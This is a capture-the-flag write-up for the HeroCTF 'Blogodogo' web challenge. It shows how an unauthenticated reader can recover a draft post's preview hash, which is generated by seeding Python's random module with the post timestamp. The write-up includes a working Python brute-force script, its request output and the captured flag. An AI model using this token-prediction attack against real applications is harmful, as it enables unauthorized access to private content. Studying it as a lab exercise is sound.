

# Blogodogo



We are given the source code of a deployed blog application. This blog has a simple user and post system.

Registration for the site requires that we have a referral code. The referral code was securely generated and not guessable, so I devided to dive into the code to see what I could do without being authenticated.

Looking at the api calls in the `routes.py` file, the first thing I noticed is that I could enumerate users using the `/authors` api call.

```
@bp_routes.route("/author/<int:author_id>", methods=["GET"])
def view_author(author_id):
    author = Authors.query.filter_by(id=author_id).first()

    if author:
        posts = Posts.query.filter_by(author_id=author.id).all()
        return render_template("pages/author.html", title="Author profile", author=author, posts=posts)

    flash("Unable to find the corresponding author.", "warning")
    return redirect(url_for('bp_routes.index'))
```

Using this, I was able that there are valid user ids from 17-24, 17 being the admin user and 18-24 being other users. When you go to a user's view, you get to see all of the posts that the user has made and some additional information about the group.

On the admin page, I noticed the following post:

```
                    <div class="post-preview">
                        <a href="/post/secret-blog-posts">
                            <h2 class="post-title">Secret blog post (draft)</h2>
                            <h3 class="post-subtitle">Secret post!!</h3>
                        </a>
                        <p class="post-meta">
                            Posted by
                            <a href="/author/"></a>
                            on 2023-05-13 02:53
                        </p>
                    </div>
                    <!-- Divider-->
```

and this sort of gives us a goal that we are supposed to try and read this blog post.

Looks like we are given the slug, time it was posted, title and author.

Keeping this information in mind and looking at other API calls, I come across this API call:

```
@bp_routes.route("/post/preview/<string:hash_preview>", methods=["GET"])
def preview_post(hash_preview):
    post = Posts.query.filter_by(hash_preview=hash_preview).first()

    if post:
        author = Authors.query.filter_by(id=post.author_id).first()
        return render_template("pages/post.html", title="Preview a post", post=post, author=author)

    flash("Unable to find the corresponding post.", "warning")
    return redirect(url_for('bp_routes.index'))
```

Looks like if I can find the "hash" of a post, I can preview the post without authenticating. I searched for the hash function:

```
def generate_hash(timestamp=None):
    """Generate hash for post preview."""
    if timestamp:
        seed(timestamp)
    else:
        seed(int(datetime.now().timestamp()))

    return randbytes(32).hex()
```

Looks like a post hash is generated with the time it was created, which we have, so we can view the preview of any post.

The one problem here is that the we dont exactly know which timezone the post was made in.

I started off with the following script to generate the timestamp:

```
from datetime import datetime
import pytz
import requests
from time import sleep
from random import seed, randbytes

def get_timestamps(datetime_str):
    dt = datetime.strptime(datetime_str, "%Y-%m-%d %H:%M")
    timestamps = []

    for tz in pytz.all_timezones:
        timezone = pytz.timezone(tz)
        dt_tz = timezone.localize(dt)
        timestamps.append(int(dt_tz.timestamp()))

    return timestamps


datetime_str = "2023-05-13 02:53"
timestamps = get_timestamps(datetime_str)

DOMAIN = "http://dyn-02.heroctf.fr:11131"
RESOURCE = "/post/preview/"

for ts in timestamps:
    seed(ts)
    slug = randbytes(32).hex()
    url = DOMAIN + RESOURCE + slug
    print(f"Trying {url}")
    r = requests.get(url)
    if "Unable to find the corresponding post" not in r.text:
        print("Answer Found!")
        print(ts)
        print(url)
        exit(1)
```

but this would take way too long, and does not account for one extra thing.

I realized that the challenge is containerized so I used the default docker timezone.

The next thing to consider is that we have the time down to the minute, but we do not know which second it was generated. This means we have to brute force for the second that the post was generated to look for the correct hash.

I revised the above script to this:

```
base_timestamp = 1683946380
for i in range(0,60):
    seed(base_timestamp+i)
    slug = randbytes(32).hex()
    url = DOMAIN + RESOURCE + slug
    print(f"Trying {url}")
    r = requests.get(url)
    if "Unable to find the corresponding post" not in r.text:
        print("Answer Found!")
        print(base_timestamp+i)
        print(url)
        exit(1)
```

to get the proper hash:

```
$ python3 sol.py
Trying http://dyn-02.heroctf.fr:11131/post/preview/8f2c71ce47d92eb5c185e22e6971343d4563f76bcb0557b94f693518a89dbd6b
Trying http://dyn-02.heroctf.fr:11131/post/preview/326b66c2d792443c3e8b42b72d12de4c8479a7fb95397fb8b752ef5892063c39
Trying http://dyn-02.heroctf.fr:11131/post/preview/1cfe4b77d1ca38b0a0214c7054227f09c81feafd402dacd63e19d4a11a821de2
Trying http://dyn-02.heroctf.fr:11131/post/preview/43aa568512ee3bc7a811fb914f414d16943cabbe1965fe8ddaf6a3e97050bf33
Trying http://dyn-02.heroctf.fr:11131/post/preview/0d9d61246675dd0285470e75621f5f8386f56b4c51c3979e6d413b7f95c24f53
Trying http://dyn-02.heroctf.fr:11131/post/preview/a83dd5479a1b3d66ce1608cde2f326a9994e88b456bc440b24368fcfdd45ea7d
Trying http://dyn-02.heroctf.fr:11131/post/preview/1f3d876956261cd57a971a44114953fe847ff1a0db9d9820c43b942360879bf6
Trying http://dyn-02.heroctf.fr:11131/post/preview/20030b5d29001f7856c0e7e034e00b8b715d24237f67cf2ea6ec34faee3bb08b
Answer Found!
1683946387
http://dyn-02.heroctf.fr:11131/post/preview/20030b5d29001f7856c0e7e034e00b8b715d24237f67cf2ea6ec34faee3bb08b
```

and get the flag:

```
Well played ! You can now register users ! Here is the referral code: 83d99a0ac225079db31b44a2e58b19f0. Hero{pr3333vi333wwwws_5973791}
```

Flag: `Hero{pr3333vi333wwwws_5973791} `
